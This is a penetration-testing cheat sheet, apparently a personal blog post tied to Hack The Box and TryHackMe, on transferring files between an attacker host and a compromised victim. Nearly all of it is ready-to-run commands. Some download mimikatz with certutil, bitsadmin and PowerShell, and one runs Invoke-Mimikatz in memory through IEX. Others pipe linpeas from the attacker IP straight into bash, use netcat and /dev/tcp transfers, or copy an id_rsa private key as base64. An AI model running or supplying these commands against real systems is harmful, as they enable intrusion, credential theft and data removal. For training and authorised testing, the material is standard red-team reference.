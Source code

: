 ```yaml
---
title: "Cheat Sheet - File Transfer"
author: Nasrallah
description: ""
date: 2025-05-11 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, linux, windows]
img_path: /assets/img/cheatsheet
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## Setting up servers

This section covers the different ways to setup our servers to transfer files.

### HTTP

The following commands are used to setup an HTTP server.

```bash
python3 -m http.server 8000
python2.7 -m SimpleHTTPServer
ruby -run -e httpd . -p 80
php -S 0.0.0.0:80
```

To setup an HTTPS server we can use openssl.

First we create a certificate using the following command:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

The following command listens on port 8000 and server the file `linpeas.sh`

```bash
openssl s_server -quiet -accept 8000 -cert certificate.pem -key key.pem < linpeas.sh
```

### SMB server

To setup an SMB server we can use `Impacket`

```bash
sudo impacket-smbserver share -smb2support ./
```

To add authentication with a username and a password we can add the following options.

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

### SSH server

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

### Upload server

The following command is used to setup `uploadserver` which is a python module that acts as an upload server that is used to transfer files from the victims machine to our attacking machine.

To install the module use the following command.

```bash
pipx install uploadserver
```

Setup a server.

```bash
uploadserver
```

To upload files using HTTPS we can create a certificate using `openssl` then instruct `uploadserver` to use it.

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

uploadserver 443 --server-certificate ~/server.pem
```

> Note that the certificate should be at a different directory from where you're running the command.

Before we start, let's consider the attacker's ip to be `10.10.10.10` and the victim's ip is `9.9.9.9`

## Windows File Transfer

### PowerShell/cmd

```cmd
certutil -urlcache -f http://10.10.10.10/mimikatz.exe .\mimikatz.exe
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:/nc.exe C:\Windows\Temp\nc.exe
```

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/mimikatz.exe', 'C:\Users\Public\mimikatz.exe')
(New-Object Net.WebClient).DownloadFileAsync('http://10.10.10.10/mimikatz.exe', 'C:\Users\Public\mimikatz.exe')
Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
iwr "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
curl "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
wget "http://10.10.10.10/mimikatz.exe" -OutFile 'C:\Users\Public\mimikatz.exe'
```

Other option for `WebClient` are: [`OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0) - [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0) - [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0) - [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0) - [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0) - [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)`

To Download and execute without writing to the disk we can use IEX(**Invoke Expression**).

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://10.10.10.10/Invoke-Mimikatz.ps1')
(New-Object Net.WebClient).DownloadString('https://10.10.10.10/Invoke-Mimikatz.ps1') | IEX
```

#### Base64

For small file we can use base64 encoding for easy transfer.

We encode the data like this:

```bash
cat id_rsa |base64 -w 0;echo
```

We copy the base64 string and paste it to the following command to decode it and save it to a file.

```cmd
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("BASE64+STRING+HERE"))
```

### SMB

Now we can copy files to the windows target.

```powershell
copy \\10.10.10.10\\share\\mimikatz.exe
```

For errors like "security policy" or "path doesn't exist" use the server with credentials and mount the share.

```shell
net use \\10.10.10.10\\share /user:hacker hacker
copy \\10.10.10.10\\share\\mimikatz.exe
```

## Linux File Transfer

### Through HTTP

The next commands are used to download `linpeas.sh` from the compromised machine.

```shell
wget http://10.10.10.10/linpeas.sh
curl http://10.10.10.10/linpeas.sh -o linpeas.sh
```

Download files using code

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://10.10.10.10/linpeas.sh", "linpeas.sh")'
python2.7 -c 'import urllib;urllib.urlretrieve ("http://10.10.10.10/linpeas.sh", "linpeas.sh")'
php -r 'file_put_contents("file.txt",file_get_contents("http://10.10.14.189/file.txt"));'
php -r 'const BUFFER = 1024; $fremote = fopen("http://10.10.10.10/linpeas.sh", "rb"); $flocal = fopen("linpeas.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("http://10.10.10.10/linpeas.sh")))'
perl -e 'use LWP::Simple; getstore("http://10.10.10.10/LinEnum.sh", "linpeas.sh");'
```

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /linpeas.sh HTTP/1.1\n\n">&3
cat <&3 | sed '1,/^\r$/d' > linpeas.sh
```

Execute the file without writing to the disk

```bash
wget -qO- http://10.10.10.10/linpeas.sh | bash
curl -s http://10.10.10.10/linpeas.sh | bash
```

### Netcat listener

Attacking machine listening.

```bash
nc -lvnp 1234 -q 0 < linpeas.sh
```

Target machine connecting

```bash
nc 10.10.10.10 1234 > linpeas.sh
cat < /dev/tcp/10.10.10.10/1234 > linpeas.txt
```

Target machine listening

```bash
nc -lvnp 1234 > linpeas.sh
```

Attacking machine connecting

```bash
cat linpeas.sh > /dev/tcp/9.9.9.9/1234
nc 9.9.9.9 1234 < file.txt
```

### SSH/SCP

```bash
scp attacker@attacker:/home/attacker/linpeas.sh . 
```

### Exfiltration w/ uploader

Working on it...

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
